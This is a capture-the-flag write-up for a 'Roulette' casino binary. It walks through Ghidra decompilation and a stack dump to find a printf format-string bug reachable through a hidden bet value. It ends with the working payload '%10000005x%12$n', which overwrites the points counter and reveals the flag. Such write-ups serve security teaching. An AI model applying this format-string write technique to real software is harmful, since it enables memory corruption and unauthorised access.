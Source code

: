 
# Roulette

![](images/roulette.png)

Lets check file type:
```console
file roulette.bin 
roulette.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ed7615410ce361d0fb60d7718bc23c478a0b0e57, for GNU/Linux 3.2.0, not stripped
```

It's executable file let run it:
```console
matan@matan:~/Documents/hacking/matrix2021$ nc challenges.ctfd.io 30426
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
2
num is : 4
The house always wins... Bye!

```

Look betting  game ,let open the file in ghidra an take a look on main function:
```c
undefined8 main(void)

{
  int iVar1;
  ssize_t sVar2;
  uint local_4c;
  ulong local_48;
  int local_3c;
  long local_38;
  uint local_30;
  undefined4 local_2c;
  uint *local_28;
  undefined8 local_20;
  char *local_18;
  int local_c;
  
  local_18 = (char *)0x0;
  local_20 = 0;
  local_28 = (uint *)0x0;
  local_2c = 0;
  local_48 = 2;
  local_4c = 0;
  local_30 = 0;
  local_38 = 0;
  local_28 = (uint *)malloc(4);
  *local_28 = 1;
  local_38 = time((time_t *)0x0);
  srand((uint)local_38);
  iVar1 = genrate_random_number(1000,10000);
  local_38 = local_38 + iVar1;
  srand((uint)local_38);
  fflush(stdout);
  puts("Welcome to Casino Royal");
  fflush(stdout);
  printf("This is a roulette game\nYou have %d point to start with.\n",(ulong)*local_28);
  fflush(stdout);
  puts("How many games would you like to play(Up to 2)?");
  fflush(stdout);
  iVar1 = __isoc99_scanf(&DAT_00102090,&local_48);
  if (iVar1 == 1) {
    fflush(stdin);
    if ((local_48 < 3) || (local_48 == 0xffffffffffffffff)) {
      local_c = 0;
      while ((ulong)(long)local_c < local_48) {
        puts("Choose your bet (1-36)");
        fflush(stdout);
        iVar1 = __isoc99_scanf(&DAT_001020f1,&local_4c);
        if (iVar1 != 1) {
          printf("Something went wrong!");
          fflush(stdout);
        }
        fflush(stdin);
        if (((int)local_4c < 1) || (0x24 < (int)local_4c)) {
          if (local_4c == 0x31519) {
            puts(
                "Please enter your command (it will be printed to make sure you entered the rightone):"
                );
            fflush(stdout);
            local_18 = (char *)malloc(0x40);
            sVar2 = read(0,local_18,0x40);
            local_3c = (int)sVar2;
            fflush(stdout);
            if (local_3c == -1) {
              puts("something went wrong with your command");
              fflush(stdout);
            }
            printf(local_18);
            fflush(stdout);
            free(local_18);
            goto LAB_00101588;
          }
          puts("Bet is out of range... choose another");
          fflush(stdout);
        }
        else {
          local_30 = genrate_random_number(1,0x24);
          printf("num is : %d\n",(ulong)local_30);
          fflush(stdout);
          if (local_30 != local_4c) {
            puts("The house always wins... Bye!");
            fflush(stdout);
            free(local_28);
            return 0;
          }
          *local_28 = *local_28 * 0x24;
          printf("You won this round\nPoints: %d\n",(ulong)*local_28);
          fflush(stdout);
LAB_00101588:
          if (10000000 < (int)*local_28) {
            free(local_28);
            puts("You Won!\n The Flag is: MCL{NOT_A_REAL_FLAG}");
            fflush(stdout);
            return 0;
          }
        }
        local_c = local_c + 1;
      }
    }
    else {
      puts("You\'re trying to trick me! I\'m leaving...");
      fflush(stdout);
    }
  }
  else {
    puts("Something went wrong!");
    fflush(stdout);
  }
  return 0;
}
```


so we can see that we need that the if [local_28] will be bigger than
10000000
```c
if (10000000 < (int)*local_28) {
            free(local_28);
            puts("You Won!\n The Flag is: MCL{NOT_A_REAL_FLAG}");
            fflush(stdout);
            return 0;
          }
```
we also see something  suspicions:
```c
local_18 = (char *)malloc(0x40); //malloc
            sVar2 = read(0,local_18,0x40); //read from sdt_input
            local_3c = (int)sVar2;
            fflush(stdout);
            if (local_3c == -1) {
              puts("something went wrong with your command");
              fflush(stdout);
            }
            printf(local_18);//print var content
```

Look like we have `format vulnerability`.
we have some steps to get to the read from std input:
1.need to pass game numbers check -    input range(-1) - 2 
```c
iVar1 = __isoc99_scanf(&DAT_00102090,&local_48);
  if (iVar1 == 1) {
    fflush(stdin);
    if ((local_48 < 3) || (local_48 == 0xffffffffffffffff)) {
      local_c = 0;
      while ((ulong)(long)local_c < local_48) {
```
2. enter bet between 1-36 - need to enter somthing specific
```c
if (((int)local_4c < 1) || (0x24 < (int)local_4c)) {
          if (local_4c == 0x31519) {
```
0x31519 = 202009

let's try it:
```console
matan@matan:~/Documents/hacking/matrix2021$ ./roulette.bin 
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009             
Please enter your command (it will be printed to make sure you entered the right one):

```

so we should check where is the `local_28` can be found on the stack in order to build buffer to override the value of [local_28].
 let put break on  and see what is the value of local_28 and how the stack look like:
 ```
 0x555555555564 <main+883>    call   free@plt <free@plt>
```

local_28
```
x $rbp-0x28
0x7fffffffdf10:	0x00005555555592a0
```
Stack
```
00:0000│ rsp  0x7fffffffdee0 ◂— 0xf0b5ff
01:0008│      0x7fffffffdee8 ◂— 0x31519000000c2
02:0010│      0x7fffffffdef0 ◂— 0x1
03:0018│      0x7fffffffdef8 ◂— 0x1055555635
04:0020│      0x7fffffffdf00 ◂— 0x604fe01e
05:0028│      0x7fffffffdf08 ◂— 0x0
06:0030│      0x7fffffffdf10 —▸ 0x5555555592a0 ◂— 0x989685
07:0038│      0x7fffffffdf18 ◂— 0x0
```

we can see that local 28 is in sixth place -in the format who be in location 12.

so our buffer should look like:
`%10000005x%12$n`

Now let run it:
```console
matan@matan:~/Documents/hacking/matrix2021$ nc challenges.ctfd.io 30426
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009
Please enter your command (it will be printed to make sure you entered the right one):
%10000005x%12$n
. . .
You Won!
 The Flag is: MCL{I_HOPE_###################}
 ```
